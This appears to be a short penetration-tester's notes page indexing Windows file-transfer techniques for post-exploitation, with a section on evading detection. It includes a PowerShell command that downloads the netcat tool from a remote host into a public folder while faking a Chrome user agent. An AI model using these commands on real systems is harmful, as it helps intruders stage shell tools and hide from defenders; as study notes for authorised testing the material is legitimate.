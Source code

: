 # Use these techniques to transfer files between systems based on Windows
## [[🟠 1. NetExec Download & Upload]]
## [[🟠 2. Base64 Encode & Decode✔️]]
## [[🟠 3. PowerShell Download & Upload✔️]]
## [[🟠 4. Code Download & Upload✔️]]
## [[🟠 5. SMB Download & Upload✔️]]
## [[🟠 6. FTP Download✔️]]
## [[🟠 7. Powershell Remoting✔️]]
## [[🟠 8. RDP✔️]]
## [[🟠 9. File Encryption and Decryption Windows✔️|🟠 9. File Encryption and Decryption Windows✔️]]
## When nothing works/avoiding detection - https://lolbas-project.github.io/

# Evading detection: 
## Using another User agent

#### Listing out User Agents
```powershell
[Microsoft.PowerShell.Commands.PSUserAgent].GetProperties() | Select-Object Name,@{label="User Agent";Expression={[Microsoft.PowerShell.Commands.PSUserAgent]::$($_.Name)}} | fl
```
#### Request with Chrome User Agent
```powershell
$UserAgent = [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome

Invoke-WebRequest http://10.10.10.32/nc.exe -UserAgent $UserAgent -OutFile "C:\Users\Public\nc.exe"
```
## Use -  https://lolbas-project.github.io/
# Tags
> #Post-Exploitation #File-Transfers #Living-Off-The-Land #Windows-Post-Exploitation